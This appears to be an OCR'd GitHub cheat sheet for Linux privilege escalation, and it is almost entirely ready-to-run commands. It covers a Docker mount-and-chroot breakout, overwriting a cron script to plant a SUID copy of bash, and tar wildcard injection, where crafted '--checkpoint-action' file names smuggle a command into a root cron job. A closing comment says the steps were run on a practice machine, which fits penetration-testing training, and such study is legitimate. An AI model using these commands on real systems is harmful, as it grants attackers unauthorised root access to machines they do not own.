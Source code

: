 ### Sudo

```
sudo -l
```

### Docker

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

### Cron Jobs

#### CRON PATHS

```
// Type 1 : Crons Paths

cat /etc/crontab # What's running every minute and their path
cat /var/log/cron.log

# Example
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh
/tmp/bash -p
whoami
```

#### WILDCARDS
[Wildcard Info](https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c)
```
// Type 2: Cron Wildcards

cat /etc/crontab # What's running every minute and their path
cat /var/log/cron.log
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh # Change the path env
chmod +x runme.sh

touch /home/user/--checkpoint=1 # Check for path
touch /home/user/--checkpoint-action=exec=sh\ runme.sh # Check for path
/tmp/bash -p
whoami



Did these steps exactly on a practice machine:

1) echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > shell.sh
2) chmod +x shell.sh
3) touch ./--checkpoint-action=exec=sh\ shell.sh
4) /tmp/bash -p
```
